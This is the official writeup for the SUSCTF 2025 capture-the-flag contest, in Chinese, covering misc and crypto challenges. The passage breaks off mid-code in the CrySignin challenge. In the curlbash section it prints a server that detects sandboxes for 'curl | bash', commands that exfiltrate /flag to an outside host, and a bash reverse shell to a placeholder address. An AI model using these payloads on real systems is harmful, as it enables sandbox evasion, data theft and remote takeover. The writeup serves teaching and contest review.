以下是 SUSCTF@2025 主赛道官方 writeup；你可以在[这里](https://github.com/susers/susctf-2025)找到题目附件和构建源码。

全文可能会有点长，欢迎点击页首 TOC 跳转阅读 -v-

# Misc

## signin

Misc 签到，打开 Adobe Illustrator 即可在海报的 Layer 3 发现隐藏的 flag。当然如果你不想装阿杜比全家桶的话，Affinity 或者 Inkscape 实测都是可以打开的。

本地用 inkscape 试了一下，右下角一看这个隐藏了一大半的图片就很可疑，提取导出即可得到 flag.png。


## eat-mian

我爱吃面 🍜

去年留下的点子，脑筋急转弯属于是。本题考察编译原理，用 CPreProcessor 简单就可以绕过基于字符串的检查；

预期解非常简单，[Concat](https://gcc.gnu.org/onlinedocs/cpp/Concatenation.html) 一下就行：

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

#define mian m##a##i##n
#define eat i##n##t
#define preatf p##r##i##n##t##f

eat mian(void) {
  srand(time(NULL));
  eat n = rand();
  preatf("I eat %d cups of mian.\n", n);
  return 0;
}
```

当然理论上想要符号里没有 main 的方法也挺多的，不过一般都要改 libc start，这里就不做进一步演示了，感兴趣的同学建议去看编原教材（x

## easyjail

以下两题属于是出的比较失败，全是非预期；感觉在 bash 里造一个安全的 jail 还是太难了。

### 出题人预期解

注意到题目使用 LD_PRELOAD 封禁了各种读的 libc 函数，预期解考虑自己直接写 syscall 读 flag 即可：

```cpp
#include <fcntl.h>
#include <sys/syscall.h>
#include <unistd.h>

#define BUFFER_SIZE 1024

int main() {
  char buffer[BUFFER_SIZE];
  int fd = syscall(SYS_open, "/flag", O_RDONLY, 0);
  if (fd < 0) {
    syscall(SYS_write, 1, "Failed to open file\n", 19);
    return 1;
  }

  int bytes_read = syscall(SYS_read, fd, buffer, BUFFER_SIZE);
  if (bytes_read <= 0) {
    syscall(SYS_write, 1, "Failed to read file\n", 19);
    syscall(SYS_close, fd);
    return 1;
  }

  syscall(SYS_write, 1, buffer, bytes_read);

  syscall(SYS_close, fd);

  return 0;
}
```

本地用 musl-gcc 静态编译一下；考虑到其他地方没有权限写 payload，我们可以直接覆盖原有的 script 再执行：

```bash
#!/bin/bash

line=$(grep -n '^__PAYLOAD_BELOW__$' "$0" | cut -d: -f1)
payload_start=$((line + 1))
out="/app/testscript.sh"

# Extract the base64 encoded payload, decode, and write to file
tail -n +$payload_start "$0" | python3 -c "import sys,base64,os,pty;open('$out','wb').write(base64.b64decode(sys.stdin.read()));os.chmod('$out',0o755);pty.spawn('$out')"
exit 0

# To generate payload:
# cat exp | base64 -w0 | tee -a exp.sh
__PAYLOAD_BELOW__
```

直接覆盖就会得到执行权限；由于题目给出了输出，直接从 stdout 就能读到 flag。

### 大家的解法

很多师傅都直接用

```bash
env -i cat /flag
```

得到了 flag。（不过这么解好像这题也没什么意义了，bash 太坏了可以随便改环境变量）

## curlbash (-revenge)

### 出题人预期解

灵感来自某天在 HN 的闲逛（考古）：[Detecting the use of "curl | bash" server-side](https://news.ycombinator.com/item?id=17636032)

实际上 curl | bash 的模式完全可以根据用户是否向服务器发送 callback 请求检测是否执行了脚本——由此提供动态的脚本内容；某种意义上也是一种 Server Side Rendering 😂

预期 payload 基于 [https://github.com/sethgrid/exploit](https://github.com/sethgrid/exploit) 修改如下：

```go
package main

import (
        "flag"
        "fmt"
        "log"
        "math/rand"
        "net"
        "net/http"
        "os"
        "strings"
        "sync"
        "time"
)

const letterBytes = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"

var hostname string
var port int
var activeKeys sync.Map

// Map to store last key for particular user-agent strings (we only use "python-requests" here)
var userAgentLastKey sync.Map

func main() {
        flag.StringVar(&hostname, "hostname", "localhost", "set to the host from which you run the script")
        flag.IntVar(&port, "port", 5050, "port to run server upon")
        flag.Parse()
        mux := http.NewServeMux()
        mux.HandleFunc("/download", downloadHandler)
        mux.HandleFunc("/check", checkHandler)
        log.Printf("starting on :%d", port)
        log.Printf("try `curl %s:%d/download`", hostname, port)
        l, err := net.Listen("tcp", fmt.Sprintf("%s:%d", "0.0.0.0", port))
        if err != nil {
                log.Fatalf("listener err: %v", err)
        }
        srv := &http.Server{
                Handler: mux,
        }
        if err := srv.Serve(&myListener{l.(*net.TCPListener)}); err != nil {
                log.Fatal(err)
        }
}

type myListener struct {
        *net.TCPListener
}

func (l *myListener) Accept() (net.Conn, error) {
        conn, err := l.TCPListener.AcceptTCP()
        if err != nil {
                return nil, err
        }
        conn.SetKeepAlive(true)
        conn.SetKeepAlivePeriod(3 * time.Minute)
        conn.SetWriteBuffer(87380)
        return conn, nil
}

func downloadHandler(w http.ResponseWriter, r *http.Request) {
        log.Println("/download")

        ua := r.Header.Get("User-Agent")
        isPython := strings.Contains(ua, "python-requests")

        var key string
        if isPython {
                // Try to reuse the previous key for python-requests
                if v, ok := userAgentLastKey.Load("python-requests"); ok {
                        key = v.(string)
                        log.Printf("reusing key for python-requests: %s", key)
                } else {
                        log.Fatalf("unsupported")
                        os.Exit(1)
                }
                // Ensure the key exists in activeKeys map (persistent; do not delete at the end)
                if _, ok := activeKeys.Load(key); !ok {
                        activeKeys.Store(key, false)
                }
        } else {
                // original behavior: new transient key, cleaned up after handler
                key = genRandKey(5)
                activeKeys.Store(key, false)
                userAgentLastKey.Store("python-requests", key)
                defer activeKeys.Delete(key)
        }

        w.Header().Set("Transfer-Encoding", "chunked")
        payload := filePart1(key)
        neededLen := 87380 - len(payload)
        if neededLen < 0 {
                neededLen = 0
        }
        payload += strings.Repeat("\x00", neededLen)
        fmt.Fprintf(w, payload)
        flush(w)
        // If liveness check responds within 500ms, use Unsafe; otherwise Safe
        if pollKeys(key, 500*time.Millisecond) {
                fmt.Fprintf(w, filePart2UnSafe())
        } else {
                fmt.Fprintf(w, filePart2Safe())
        }
        flush(w)
}

func checkHandler(w http.ResponseWriter, r *http.Request) {
        key := r.URL.Query().Get("key")
        log.Printf("/check?key %q", key)
        count := 0
        activeKeys.Range(func(k, v interface{}) bool {
                count++
                log.Printf("found key: %v - %v", k, v)
                return true
        })
        if count == 0 {
                log.Println("no keys found")
        }
        if _, ok := activeKeys.Load(key); ok {
                log.Println("key found in store, setting active to true")
                activeKeys.Store(key, true)
        }
}

func pollKeys(key string, timeout time.Duration) bool {
        tick := time.NewTicker(50 * time.Millisecond) // tighter polling interval for responsiveness
        dieTime := time.Now().Add(timeout)
        defer tick.Stop()
        for range tick.C {
                if isActive, ok := activeKeys.Load(key); ok {
                        if v, ok := isActive.(bool); ok && v {
                                return true
                        }
                }
                if time.Now().After(dieTime) {
                        return false
                }
        }
        return false
}

func genRandKey(n int) string {
        b := make([]byte, n)
        for i := range b {
                b[i] = letterBytes[rand.Int63()%int64(len(letterBytes))]
        }
        return string(b)
}

func flush(w http.ResponseWriter) {
        if f, ok := w.(http.Flusher); ok {
                f.Flush()
        } else {
                log.Println("unable to flush response writer")
        }
}

func filePart1(key string) string {
        return fmt.Sprintf(`
# liveness check
curl -s 'http://%s:%d/check?key=%s' || exit 0
`, hostname, port, key)
}

func filePart2Safe() string {
        return `
echo "you are looking at safe code. You should just pipe this to bash."
`
}

func filePart2UnSafe() string {
        return `
echo "you have been pwnd. Never pipe curl to bash!"
curl "http://106.14.34.211:8888/$(cat /flag)"
        `
}
```

注意到设置了 Transfer-Encoding: chunked，以便 curl | bash 可以等待服务端算出后面的脚本继续执行；要通过 curl 和 python-requests 的一致性检查，检测一下 ua 就行了。

如果服务端收到了 liveness check，说明 bash 执行了脚本，我们可以安全地在沙箱外发送任何恶意命令；如果没有收到，说明在沙箱内没有成功发出请求，我们只要一直提供看起来无害的脚本就能通过检查。

### 大家的解法

其实属于是脑子抽了没想起来，filePart1 的解法完全也可以一直提供同一份脚本：让他在沙箱内 exit 0、沙箱外成功执行都可以；不少师傅也是这样做的。所以这题彻底变成沙箱逃逸超级加强版，交给大家自由发挥了。

#### wele

这里分享 wele 师傅的解法如下：

```bash
s=$(printf '\x2f')
# 读取 flag
flag=$(cat ${s}flag 2>&1 | base64 -w0)
# 外带数据，|| 保证不第一时间退出
curl -s "http://xxx/$flag" 2>&1 || true
echo "1"
exit 0
```

对于 revenge，沙箱通过 hook waitpid syscall 检查返回值，若不为 0 就直接退出；于是出现了以下比较变态的解法：

```bash
curl -s "http://xxx/$flag" &
```

#### illunight

以及更加变态的盲注法：

发现脚本中写 exit 13 依然能输出错误码 13，证明我们能控制错误码，故通过控制错误码区分 flag 中的字符：

将 cut -c 57 /flag 的 57 从 0 遍历到 57，即可得到 flag 的每一位。

```bash
if test -f /flag; then char=$(cut -c 57 /flag); case "$char" in '')
exit 0;; 'a') exit 10;; 'b') exit 11;; 'c') exit 12;; 'd') exit 13;;
'e') exit 14;; 'f') exit 15;; 'g') exit 16;; 'h') exit 17;; 'i') exit
18;; 'j') exit 19;; 'k') exit 20;; 'l') exit 21;; 'm') exit 22;; 'n')
exit 23;; 'o') exit 24;; 'p') exit 25;; 'q') exit 26;; 'r') exit 27;;
's') exit 28;; 't') exit 29;; 'u') exit 30;; 'v') exit 31;; 'w') exit
32;; 'x') exit 33;; 'y') exit 34;; 'z') exit 35;; 'A') exit 36;; 'B')
exit 37;; 'C') exit 38;; 'D') exit 39;; 'E') exit 40;; 'F') exit 41;;
'G') exit 42;; 'H') exit 43;; 'I') exit 44;; 'J') exit 45;; 'K') exit
46;; 'L') exit 47;; 'M') exit 48;; 'N') exit 49;; 'O') exit 50;; 'P')
exit 51;; 'Q') exit 52;; 'R') exit 53;; 'S') exit 54;; 'T') exit 55;;
'U') exit 56;; 'V') exit 57;; 'W') exit 58;; 'X') exit 59;; 'Y') exit
60;; 'Z') exit 61;; '0') exit 62;; '1') exit 63;; '2') exit 64;; '3')
exit 65;; '4') exit 66;; '5') exit 67;; '6') exit 68;; '7') exit 69;;
'8') exit 70;; '9') exit 71;; '_') exit 72;; '-') exit 73;; '+') exit
74;; '=') exit 75;; '{') exit 76;; '}') exit 77;; '[') exit 78;; ']')
exit 79;; '(') exit 80;; ')') exit 81;; '*') exit 82;; '&') exit 83;;
'^') exit 84;; '%') exit 85;; '$') exit 86;; '#') exit 87;; '@') exit
88;; '!') exit 89;; '~') exit 90;; '|') exit 91;; ':') exit 92;; ';')
exit 93;; ',') exit 94;; '.') exit 95;; '/') exit 96;; '<') exit 97;;
'>') exit 98;; '?') exit 99;; '\') exit 100;; "'") exit 101;; '"')
exit 102;; *) exit 3;; esac; fi
```

Qemu 模拟器中同样有/flag 文件，但是内容为 susctf{fake_flag}。
而我们需要读取宿主机的 flag，必须通过模拟器中的验证。因此，在第 1~17 位需要将对应的字符设置为 exit 0，由于每个字符返回的错误码均不相同且没有 0，依然可以区分真正的 flag 中每个字符。
（没记错的话，好像只有一个 e 是同时在 revenge 和 fake 中）

#### zysgmzb

当然如果你足够耐心，也可以等到随机数正好卡到你的回合，属于是赛博抽卡了：

```python
from flask import Flask, request

app = Flask(__name__)

global num
num = 0

@app.route("/")
def index():
    global num
    ua = request.headers.get("User-Agent", "")
    if ua.startswith("python-requests"):
        return "echo hello"
    else:
        print(ua)
    if (num < 10):
        num += 1
        return "echo hello"
    if (num == 10):
        print("end")
        return 'bash -c "bash -i >& /dev/tcp/xx.xx.xx.xx/xxxx 0>&1"'

@app.route("/reset")
def reset():
    global num
    num = 0
    return "reset done"

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8080)
```

```python
from pwn import *
import requests

while 1:
    r = remote('106.14.191.23', 51240)
    r.recvuntil("Your script: ")
    r.sendline('http://xx.xx.xx.xx:xxxx')
    for _ in range(10):
        r.recvline()
        r.recvline()
    res = r.recvline().decode()
    print(res)
    if (res[:10] == "[Round 10]"):
        r.close()
        requests.get("http://xx.xx.xx.xx:xxxx/reset")
        print("Reset completed")
    else:
        r.interactive()
```

### 碎碎念

抛开题目本身，如果我们讨论如何才能造一个安全的 bash jail，调研了一下好像确实没有什么合适的方案阻止你乱搞：

- bash 确实有一个 [Restricted Shell](https://www.gnu.org/software/bash/manual/html_node/The-Restricted-Shell.html)，不过



- 即使在外面设置了 `set -euo pipefail`，里面也无法阻止你用 || 返回一个假值
- 实践上无法探测一个正在运行的后台程序是否会返回失败的非零值

感觉这下不得不魔改 bash 了。

## pcap

### 第一部分

就笑，第一关还是很简单的 😊

灵感来源于暑校的企业项目实践，做了一个小众宝藏 DDS 服务。直接把我写的拿来改了改，发包脚本大概长这样：

```java
public void Start() {
        ReturnCode_t rtn;

        List<Integer> minSize = Objects.requireNonNull(cfg.getMinSize());
        List<Integer> maxSize = Objects.requireNonNull(cfg.getMaxSize());

        String filePath = "/home/shang/Projects/ctf/SUSCTF/2025/Misc/distribution/task.zip";
        Path path = Paths.get(filePath);
        byte[] fileBytes = new byte[0];

        try {
            fileBytes = Files.readAllBytes(path);
            println("File read into byte array of length: " + fileBytes.length);
        } catch (IOException e) {
            e.printStackTrace();
        }
        minSize.clear();
        minSize.add(cfg.getMaxSize().get(0));
        maxSize.clear();
        maxSize.add(fileBytes.length + 8);

        long seqCtr = 1;
        Message msg = new Message();
        for (int i = 0; i < minSize.size(); i++) {
            int sendCount = 114;//Objects.requireNonNull(cfg.getSendCount()).get(i);
            int payloadSize = UtilsKt.getRandomInt(minSize.get(i), maxSize.get(i));
            for (int k = 0; k < sendCount; k++, seqCtr++) {
                msg.payload = new ByteSeq();
                msg.payload.ensure_length(payloadSize - 8, payloadSize - 8);
                msg.payload.from_array(UtilsKt.genPayload(payloadSize - 8, checkSample), payloadSize - 8);
                msg.dataLength = payloadSize;
                if (k == 50) {
                    msg.dataLength = maxSize.get(0) - 8;
                    msg.payload.from_array(fileBytes, (int) msg.dataLength);
                }

                rtn = dw.write(msg, InstanceHandle_t.HANDLE_NIL_NATIVE);
                if (rtn != ReturnCode_t.RETCODE_OK) {
                    println("write failed: " + rtn.toString());
                    consecutiveWriteFailures++;
                    if (consecutiveWriteFailures >= maxFailuresBeforeWait) {
                        println("Write failed 10 times consecutively, waiting before retry...");
                        tSleep(retryWaitMillis);
                    }
                } else {
                    consecutiveWriteFailures = 0;
                }
                if (sendDelayCount != 0 && seqCtr % sendDelayCount == 0 && delayMode == DelayMode.DELAY_AFTER_SEND) {
                    tSleep(sendDelay);
                }
                //dw.wait_for_acknowledgments(Duration_t.DURATION_INFINITE);
            }
            dw.flush();
        }
    }
```

观察到虽然发了很多包，只有 pkt No.378 里明显是个 zip header。如果你简单了解一下 RTPS 协议的话（[这里有不错的文档，感谢 RTI](https://community.rti.com/static/documentation/wireshark/current/doc/understanding_rtps.html)），可以看到有一个 writerSeqNum 可以用来区分不同的数据包。由于传输的包比较大，UDP 发会分片，可以观察到 submessage 模式为 DATA_FRAG。

应用 filter `rtps.sm.seqNumber == 51 && rtps.sm.id == 0x16` 即可查看包含 zip 的 payload。如果你注意力比较惊人的话，`serializedData` 的前八个字节是传输数据的长度，直接按长度截取就行了；当然从 PK header 开始截到这个流的最后也不是不行。

```bash
tshark -r task.pcapng -Y "rtps.sm.seqNumber == 51 && rtps.sm.id == 0x16" -T fields -e rtps.issueData | tr -d '\n',':' | xxd -r -ps > out.bin
```

手动处理一下从 zip header 开始然后解压就可以得到 task.pcap 了。

### 第二部分

第二关就不简单了。

第二部分考察选手自身对流量的分析能力，让选手体会到猜协议的乐趣（）。考虑到 Wireshark 作为广泛使用的流量分析工具，可以自动完成对大部分流量的解析工作，所以考虑如何干扰 Wireshark 的 dissector😈。最终选择了非常规端口的 VXLAN 进行嵌套，来阻断 dissector 的自动解析过程。

VXLAN（Virtual eXtensible Local Area Network，虚拟扩展局域网）与 GRE 协议类似，是一种网络隧道技术，可以将网络中的二层报文封装在 UDP 包中进行传输。

以本题 task.pcap 第 4 个包为例，其在 UDP 报文中依次存在 VXLAN（8 字节）、Ethernet（14 字节）、IPv4（20 字节）和 TCP（32 字节）头，随后才是 RTSP 协议内容。



虽然没有了 Wireshark 的自动解析，但是直接打开流量还是可以看到纯文本形式的 RTSP 协议包的，并且可以得到 RTP 流为 pcmu 格式 48kHz。



在解题时，一种方法是直接根据 RTSP 报文的相对偏移（74-32-20-14=8）提取出 VXLAN 承载的流量，并导入到 pcap 中使用 Wireshark 进行后续分析，这种方法没什么问题需要处理。

```python
from scapy.utils import PcapWriter, PcapReader
from scapy.layers.inet import UDP

with PcapReader("task.pcap") as pcap_reader, PcapWriter("task_inner.pcap", append=False) as pcap_writer:
    for packet in pcap_reader:
        if UDP in packet:
            udp_payload = bytes(packet[UDP].payload)
            pcap_writer.write(udp_payload[8:])
```

另一种方法是直接根据相对偏移提取 RTP 内容。为了提取 RTP 内容，观察原始 pcap，可以发现 UDP(sport=50920, dport=1234)占据了绝大多数流量，可以猜测其为要提取的 RTP 流。但是出题人在发送 RTP 报文时 IP 报文发生了分片，观察报文，可以发现音频流的偏移交替变化。这时内部的 IP 报文大概是这样的结构（省略了以太网头）：



所以需要以不同的长度提取并拼接报文，不过虽然偏移会变，但有点误差应该还是不影响的，因为 RTP 内部是裸的音频流，丢点字节也没什么关系（大概）。

如果你在赛后复现时想跳过前文的提取步骤，直接使用 Wireshark 提取音频流的话，可以这样操作：

1. 首先打开 task.pcap，选择任意一个报文，右键，选择 Decode As...，并按如下设置：



1. 设置好后 Wireshark 就可以解析完整的报文了。
2. 在上方菜单栏选择电话，找到 RTP，选择 RTP 流



1. 选中该流，点击右下方 Play Streams
2. 在弹出的新窗口中重新选择该流，点击右下方 Export，选择 Payload，另存为.raw 文件

这样就可以获得完整的音频流，可以使用以下命令转为 wav:

```bash
sox -b 8 -c 1 -r 48k -e mu-law output.raw -b 16 -e signed output.wav
```

然后可以使用 NOAA APT 的解码软件进行解码，出题人用的是 https://noaa-apt.mbernardi.com.ar/



关于编码方式的提示在流量包最后面：



## mosaic

这道题的灵感来自出题人搜索天文摄影相关的文章时翻到了一个视频: [https://b23.tv/BV1MgG1z4E9p](https://b23.tv/BV1MgG1z4E9p)

于是就想出一道恢复视频马赛克的题目，但是感觉视频里的恢复方式太复杂，最后对情景做了简化出了这个题。

题目核心内容就是把一张图片以 15x15 的区域取平均值，并遍历所有 15x15=255 个偏移，考察能否恢复出清晰的图片。为了防 AI，出题人将不同偏移的图像按顺序打包在 apng 文件中，且没有提供马赛克的生成代码。



同时为了便于选手验证图片的马赛克算法（取 15x15 像素平均值，在边缘循环取值），本题额外提供了 noflag.png 作为对照组，与 flag.png 相比多提供了清晰的一帧，用来供选手验证图片马赛克算法。

预期的做法是首先保留每张图片每个 15x15 区域最中间(7,7)的像素，拼合成一张完整图像。这样拼合后的图案每个像素都是原始图像周围 15x15 像素的平均值，相当于对原图做了一个均值滤波。



进一步，由于空域的卷积等效于频域的乘法，且卷积核已知，因此我们只需要在频域上做除法，就能很好的恢复出原图了，即去卷积（Deconvolution）操作。考虑到题目的 PNG 每通道只有 8 位精度，会有量化噪声，所以预期解是对拼合后的模糊图像做一次维纳滤波，从而得到清晰的图片。

### 预期解

首先是要能识别出题目给的两个图像均为 apng 图像。如果是 macOS 的话可以直接打开，可以看到图片被自动拆出了动画帧。或者使用 Firefox 打开图片时，apng 图片会自动播放。



apng 在 png 的基础上，增加了存储动画帧的额外数据块（acTL、fcTL、fdAT），也可以通过 010editor 打开发现



在发现 png 图片为 apng 后，可以使用 python 的 pillow 库提取出 apng 中所有的帧，并提取出每个马赛克块中央的像素进行拼合，得到一张模糊的 flag 图片：


然后进行维纳滤波，可以还原出清晰的图像：

```python
def deconv_box_circular(J, block=15, lam=1e-3):
    # 去卷积（环绕边界）
    # 卷积核 h 在索引 (0..block-1, 0..block-1) 为常数 1/block**2，其余为 0
    H, W, C = J.shape
    h = np.zeros((H, W), dtype=np.float32)
    h[:block, :block] = 1.0 / (block * block) # 卷积核
    Hk = np.fft.fft2(h)
    # 维纳滤波：H* / (|H|^2 + lam)
    G = np.conj(Hk) / (np.abs(Hk) ** 2 + lam)
    out = np.zeros_like(J)
    for c in range(C): # 对每个通道分别进行处理
        FJ = np.fft.fft2(J[:, :, c])
        FI = FJ * G
        out[:, :, c] = np.fft.ifft2(FI).real
    return out
```


### zysgmzb 师傅的题解

不过，由于本题两张图片的背景是完全一样的，且 noflag.png 提供了清晰版本，这给马赛克恢复提供了额外的信息：可以通过对比 flag 和 noflag 两组图片的马赛克窗口像素颜色的差异，来逐像素的还原背景之上的 flag 水印。在这里截取了 zysgmzb 师傅 wp 的关键部分，完整 WP 在 [https://zysgmzb.club/index.php/archives/390](https://zysgmzb.club/index.php/archives/390)：





看起来恢复效果不赖，也是一种很好的方法。但是在恢复 flag 像素时要注意，因为是 225 个像素的平均值（求平均值需/225，单个像素变化[0,255]对平均值影响 <1.33），所以还原出的 flag 像素值会受到量化噪声的干扰（单个像素变化造成的影响被舍入为 0 或 1），且会随着还原过程累积。

## Questionnaire

坚持了去年的优良传统，把 flag 塞到了抽奖里，导致不少师傅没看到（原来这也是题目的一部分吗 www）。欢迎大家明年再来玩！

# Crypto

## 01-All U Need(Easy+,7 Solves, 237pts)

先看一下题目：

```python
n=2904843071883500000000000000000077968341153552000000000000000001247490892311370000000000000000017202971801726400000000000000000172108837172285000000000000000001625541474334760000000000000000022269441527985100000000000000000263000084922760000000000000000002706746341050890000000000000000030157440708292800000000000000000298606737869309000000000000000003536628718954680000000000000000042190167488059500000000000000000472189179701384000000000000000004851880611409810000000000000000052976520884965400000000000000000540948274124889000000000000000005740148052406340000000000000000067192069373124700000000000000000630695683831718000000000000000006467633676752550000000000000000069480034984422600000000000000000711683946987899000000000000000007942729256445680000000000000000086817065194546500000000000000000852602856481182000000000000000009107741861772970000000000000000089852724145392800000000000000000933256474844053000000000000000010572355877086640000000000000000103275505433200100000000000000001044738076898846000000000000000010421343850951330000000000000000102470042454072200000000000000001040667738462861000000000000000010148501663850480000000000000000096417726625576500000000000000000918355490056316000000000000000008945969161845650000000000000000087359916557803400000000000000000889875962976993000000000000000009093271343745480000000000000000077814906978822100000000000000000731752316877060000000000000000007302126810147890000000000000000065610961673166200000000000000000640719012346937000000000000000006398350386236640000000000000000052875877317330700000000000000000513460599936704000000000000000005316229183128150000000000000000045069207864115400000000000000000503278034378491000000000000000004468137061001900000000000000000038847754943070300000000000000000373326405240394000000000000000003115125870491090000000000000000029165170477508400000000000000000261001793289055000000000000000002116489534021480000000000000000016024210804564100000000000000000124886521529344000000000000000000599416582023330000000000000000006456062538926000000000000000000030266403420083
e=...
c=...
```

题目只给出了 $n,e,c$ 没有给出其他消息，因此，只有考虑分解 $n$ ，才能实现 RSA 的解密。但尝试 $p-1$ 和 $p+1$ 分解法， $n$ 均无法被分解，说明使用的素数并非弱素数。

不过我们会"注意到"（呃，这个还是能看出来的），$n$  里面有很多连续的 $0$ ，并且似乎每一段 $0$ 的长度都是差不多的（忽略零星出现的 0 ）。虽然题目没有给出 $n$ 是如何生成的，但我们可以大致看出（其实最初的一个版本是给了的，但感觉那样有点题目有点太简单了就没给，何况 Crypto 有 3，4 两个送分题）。

### 1.1 出题人预期解

既然我们提到， 里面有很多连续的 $0$ ，并且似乎每一段 $0$ 的长度都是差不多的，即 $n$ 具备明显的近似长度的分组结构。那么我们可以猜测 $p,q$ 中也存在很多 $0$ ，并且具有类似的等长分组结构。因此可以简单测试，暴力枚举分组长度。最后会发现当分组长度为 $32$ 时，能够取得比较好的效果，也就是每一组最高位全是$0$ ，且长度近似。

```python
sn=str(n)
def splitSn(sx,lpart):
    sxi=sx[::-1]
    # print(sxi)
    L=[]
    for i in range((len(sxi)+lpart-1)//lpart):
        sii=sxi[lpart*i:lpart*i+lpart][::-1]
        L.append(sii)
    return L
Nx=splitSn(sn,32)
['00000000000000000030266403420083', '00000000000000000064560625389260', '00000000000000000059941658202333', '00000000000000000124886521529344', '00000000000000000160242108045641', '00000000000000000211648953402148', '00000000000000000261001793289055', '00000000000000000291651704775084', '00000000000000000311512587049109', '00000000000000000373326405240394', '00000000000000000388477549430703', '00000000000000000446813706100190', '00000000000000000503278034378491', '00000000000000000450692078641154', '00000000000000000531622918312815', '00000000000000000513460599936704', '00000000000000000528758773173307', '00000000000000000639835038623664', '00000000000000000640719012346937', '00000000000000000656109616731662', '00000000000000000730212681014789', '00000000000000000731752316877060', '00000000000000000778149069788221', '00000000000000000909327134374548', '00000000000000000889875962976993', '00000000000000000873599165578034', '00000000000000000894596916184565', '00000000000000000918355490056316', '00000000000000000964177266255765', '00000000000000001014850166385048', '00000000000000001040667738462861', '00000000000000001024700424540722', '00000000000000001042134385095133', '00000000000000001044738076898846', '00000000000000001032755054332001', '00000000000000001057235587708664', '00000000000000000933256474844053', '00000000000000000898527241453928', '00000000000000000910774186177297', '00000000000000000852602856481182', '00000000000000000868170651945465', '00000000000000000794272925644568', '00000000000000000711683946987899', '00000000000000000694800349844226', '00000000000000000646763367675255', '00000000000000000630695683831718', '00000000000000000671920693731247', '00000000000000000574014805240634', '00000000000000000540948274124889', '00000000000000000529765208849654', '00000000000000000485188061140981', '00000000000000000472189179701384', '00000000000000000421901674880595', '00000000000000000353662871895468', '00000000000000000298606737869309', '00000000000000000301574407082928', '00000000000000000270674634105089', '00000000000000000263000084922760', '00000000000000000222694415279851', '00000000000000000162554147433476', '00000000000000000172108837172285', '00000000000000000172029718017264', '00000000000000000124749089231137', '00000000000000000077968341153552', '29048430718835']
```

在找到 $n$ 的分组特征后，如果我们把 $p,q$ 也当作分组来看，可以看出 $n$ 的每一组都与 $p,q$ 有所关联。而 ”分组特征“ 可以建模成 ”多项式“，即我们将上面的分组结果构建整数多项式环 $\mathbb Z[x]$ 上的多项式$N(x)$ ，那么一定存在两个多项式  $P(x),Q(x)$ ，使得$N(x)=P(x)Q(x)$ 。那么此时可以构建多项式  $N(x)$ ，并分解 $N(x)$ 获取 $P(x)$ 和$Q(x)$ ：

```python
sn=...
def splitSn(sx,lpart):
    sxi=sx[::-1]
    # print(sxi)
    L=[]
    for i in range((len(sxi)+lpart-1)//lpart):
        sii=sxi[lpart*i:lpart*i+lpart][::-1]
        L.append(sii)
    return L
Nx=splitSn(sn,32)
print(Nx)
PRZ.<x>=PolynomialRing(ZZ)
Nx=PRZ([int(i) for i in Nx])
print(Nx)
factor(Nx)
#(4481389*x^32 + 6231239*x^31 + 9536595*x^30 + 9893789*x^29 + 2772725*x^28 + 2492017*x^27 + 2927275*x^26 + 4208633*x^25 + 2151961*x^24 + 7077115*x^23 + 2502337*x^22 + 6088579*x^21 + 9642093*x^20 + 9684731*x^19 + 7570433*x^18 + 5896329*x^17 + 2604387*x^16 + 4527057*x^15 + 8256741*x^14 + 4046673*x^13 + 8652691*x^12 + 2068847*x^11 + 3127087*x^10 + 5730787*x^9 + 2209191*x^8 + 9632779*x^7 + 6784831*x^6 + 3236041*x^5 + 7387021*x^4 + 9402933*x^3 + 2789721*x^2 + 9335063*x + 5379161) * (6482015*x^32 + 8385203*x^31 + 2383755*x^30 + 2918291*x^29 + 6751721*x^28 + 6619483*x^27 + 9306321*x^26 + 2058413*x^25 + 4774301*x^24 + 9471745*x^23 + 4161897*x^22 + 6666341*x^21 + 4192927*x^20 + 6803031*x^19 + 5416021*x^18 + 7161085*x^17 + 6899053*x^16 + 2293161*x^15 + 6330377*x^14 + 4436843*x^13 + 3204999*x^12 + 9084149*x^11 + 8030719*x^10 + 8549087*x^9 + 6203487*x^8 + 4097235*x^7 + 5606397*x^6 + 9386583*x^5 + 7768569*x^4 + 4685243*x^3 + 4342257*x^2 + 2237511*x + 5626603)
```

获取 $P(x)$ 和 $Q(x)$ 之后，将 $x=10^{32}$ 带入（因为是 $32$ 位一组）就可以得到 $p,q$ 了，最终直接执行 RSA 解密就 OK。

```python
Px=(4481389*x^32 + 6231239*x^31 + 9536595*x^30 + 9893789*x^29 + 2772725*x^28 + 2492017*x^27 + 2927275*x^26 + 4208633*x^25 + 2151961*x^24 + 7077115*x^23 + 2502337*x^22 + 6088579*x^21 + 9642093*x^20 + 9684731*x^19 + 7570433*x^18 + 5896329*x^17 + 2604387*x^16 + 4527057*x^15 + 8256741*x^14 + 4046673*x^13 + 8652691*x^12 + 2068847*x^11 + 3127087*x^10 + 5730787*x^9 + 2209191*x^8 + 9632779*x^7 + 6784831*x^6 + 3236041*x^5 + 7387021*x^4 + 9402933*x^3 + 2789721*x^2 + 9335063*x + 5379161)
Qx=(6482015*x^32 + 8385203*x^31 + 2383755*x^30 + 2918291*x^29 + 6751721*x^28 + 6619483*x^27 + 9306321*x^26 + 2058413*x^25 + 4774301*x^24 + 9471745*x^23 + 4161897*x^22 + 6666341*x^21 + 4192927*x^20 + 6803031*x^19 + 5416021*x^18 + 7161085*x^17 + 6899053*x^16 + 2293161*x^15 + 6330377*x^14 + 4436843*x^13 + 3204999*x^12 + 9084149*x^11 + 8030719*x^10 + 8549087*x^9 + 6203487*x^8 + 4097235*x^7 + 5606397*x^6 + 9386583*x^5 + 7768569*x^4 + 4685243*x^3 + 4342257*x^2 + 2237511*x + 5626603)
p,q=Px(10**32),Qx(10**32)
n=Nx(10**32)
assert n%p==0
e=...
c=...
from Crypto.Util.number import *
phi=(p-1)*(q-1)
d=inverse(e,phi)
print(long_to_bytes(pow(c,d,n)))
#susctf{aTten7|on_IS_ALL_YOu_N&E<_hA#ahA_54838504!}
```

最后解出来，得到类似于：`Attention is all you need` 的语句，所以注意力是你所需要的，比如你需要注意到 $n$~~ 的特殊结构。~~

## 03-CrySignin(Easy, 39 Solves, 125pts)

```python
from Crypto.Util.number import *
from random import *
from secret import flag
from uuid import UUID
